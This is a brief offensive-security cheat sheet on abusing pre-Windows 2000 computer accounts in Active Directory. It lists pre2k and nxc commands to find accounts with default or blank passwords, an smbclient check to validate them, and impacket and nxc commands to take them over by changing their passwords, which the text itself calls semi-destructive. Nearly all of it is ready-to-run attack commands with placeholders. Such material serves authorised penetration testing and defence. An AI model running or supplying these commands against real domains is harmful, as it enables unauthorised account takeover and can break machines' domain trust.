 ___
##  TL;DR:

### Identify


**Tools:** [pre2k](https://github.com/garrettfoster13/pre2k), [nxc](https://github.com/Pennyw0rth/NetExec)

**With creds**
```bash
pre2k auth -u <user> -d <DOMAIN> -p <pass> -dc-ip <dcip> -ldaps
```
or
```bash
nxc ldap <dc-ip> -u 'user' -p 'pass' -M pre2k
```

**Without creds**
```bash
pre2k unauth -d <DOMAIN> -dc-ip <dcip> -inputfile <listofcomputers>
```

!!! alert "Note"
	You can pass `-n` to check blank passwords as well

!!! alert "Manual mode"
	Without using the tool, you can check by identifying `pwdlastset: 12/31/1600 7:00:00PM`

!!! alert "Note"
	The only error that indicates an auth failure is `KDC_ERR_PREAUTH_FAILED` other errors do not mean you can't authenticate

**Validate**
```bash
smbclient.py domain/machinename\$:machinename@dc-ip
```
Expected output: `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`

### Exploit

!!! alert "Note"
	this is semi-destructive, it may require the object be rejoined to the domain


**Change the account password:**
```bash
impacket-changpasswd.py domain/machinename\$:machinename@dc-ip -newpass <pass>
```
or
```bash
nxc smb <dcip> -u machinename$ -p 'machinename' -M change-password -o NEWPASS=NewPassword
```